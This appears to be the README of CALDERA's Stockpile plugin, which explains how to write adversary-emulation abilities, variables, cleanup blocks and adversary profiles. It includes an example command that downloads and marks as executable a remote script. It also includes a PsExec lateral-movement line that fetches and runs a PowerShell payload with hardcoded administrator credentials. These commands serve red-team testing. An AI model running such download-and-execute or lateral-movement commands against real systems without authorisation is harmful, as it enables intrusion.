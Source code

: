 # CALDERA plugin: Stockpile

This plugin contains:

* A collection of abilities
* Pre-built adversary profiles
* A filestore
* A basic planner (sequential) which runs all abilities on an adversary against all hosts in a group

You can quickly add your own abilities and adversaries to the stockpile, both of which are reloaded every time
the core server reboots.

## Abilities

Stockpile abilities are located in the abilities/ directory.

To add new ones, add a .yml file in the abilities directory, named after a unique ID (UUID-4 is our standard). 
This file should include an ID, name, description, ATT&CK tactic and command.

Below is an example ability
```
- id: e9bcdf0d-be08-4aec-bf1e-e73655403d55
  name: Download WIFI tools
  description: Download a set of commands for manipulating WIFI
  tactic: discovery
  technique:
    attack_id: T1016
    name: System Network Configuration Discovery
  command: |
    curl -sk -X POST -H 'file:wifi.sh' #{server}/file/download > /tmp/wifi.sh &&
    chmod +x /tmp/wifi.sh
  cleanup:
    rm /tmp/wifi.sh
```

### Ability variables

As you write abilities, note that there are two global variables available, server and group, which 
can be used inside an ability command.

A variable is referenced with the syntax #{variable}.

* Server / #{server}: The location of CALDERA. Because each agent may have a different reference point
for where CALDERA is (IP, FQDN, etc), if an ability wants to reference CALDERA it should use #{server}. 
* Group / #{group}: The group used in the active operation.

In the ability example above, note the usage of the #{server} variable.

The group variable is a bit more advanced. This is useful primarily for lateral movement abilities where
the agent may move itself to a new host. A snippet of what this may look like (for PSExec) would be
```
psexec \\127.0.0.1 -u administrator -p password123 Powershell.exe iex (irm -Method Post -Headers @{'file'='54ndc47.ps1'}  #{server}/file/render?group=#{group})
```

### Download files from CALDERA to an agent

In the ability example, note the command downloading the wifi.sh file from CALDERA. It does this by sending a
POST request to the API endpoint /file/download, including the requested filename as a header.

The /file/download endpoint will look inside the filestore directory of every plugin when called.

### Cleanup

Abilities can optionally include a cleanup block, which will execute automatically at the end of an operation. The
cleanup should be used in instances you want to reverse a mutable action, such as stopping a started process. In
the ability example above, note how the cleanup block is written.

## Adversaries

New adversaries can be added to the adversaries.yml file.



